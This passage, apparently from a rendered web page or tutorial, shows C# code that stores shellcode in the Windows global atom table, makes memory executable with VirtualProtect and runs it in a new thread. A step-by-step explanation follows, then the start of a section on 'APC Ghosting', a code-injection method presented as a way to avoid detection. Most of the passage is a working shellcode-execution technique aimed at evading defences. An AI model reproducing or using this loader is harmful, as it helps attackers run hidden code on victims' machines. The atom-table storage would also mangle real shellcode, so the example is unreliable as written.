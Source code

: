```csharp
        // Retrieve the shellcode from the global atom table
        StringBuilder retrievedShellcode = new StringBuilder(255);
        GlobalGetAtomName(atom, retrievedShellcode, retrievedShellcode.Capacity);

        // Execute the shellcode (simple example, in reality you would use different techniques to execute it)
        IntPtr shellcodePtr = Marshal.StringToHGlobalAnsi(retrievedShellcode.ToString());
        ExecuteShellcode(shellcodePtr);

        // Clean up
        GlobalDeleteAtom(atom);
    }

    private static void ExecuteShellcode(IntPtr shellcodePtr)
    {
        // Change the memory protection to executable
        uint oldProtect;
        VirtualProtect(shellcodePtr, (UIntPtr)0x1000, 0x40, out oldProtect);

        // Execute the shellcode
        var thread = CreateThread(IntPtr.Zero, 0, shellcodePtr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(thread, 0xFFFFFFFF);
    }

    [DllImport("kernel32.dll")]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport("kernel32.dll")]
    private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
```

**Explanation:**
1. **GlobalAddAtom:** Stores the shellcode in the global atom table.
2. **GlobalGetAtomName:** Retrieves the shellcode from the atom table.
3. **VirtualProtect:** Changes the memory protection to `PAGE_EXECUTE_READWRITE` to allow code execution.
4. **CreateThread:** Creates a new thread to execute the shellcode.
5. **WaitForSingleObject:** Waits for the thread to finish execution.

### **APC Ghosting Example**

**APC Ghosting** is a more advanced and stealthy technique of code injection. It involves injecting a shellcode into a thread’s Asynchronous Procedure Call (APC) queue and then hiding or altering the thread’s context to avoid detection.

Here's a simplified example of how APC injection might look in C#. Note that implementing APC Ghosting (hiding the APC from detection) requires lower-level manipulation of thread context that can be complex and is typically done in C or C++ rather than C#.
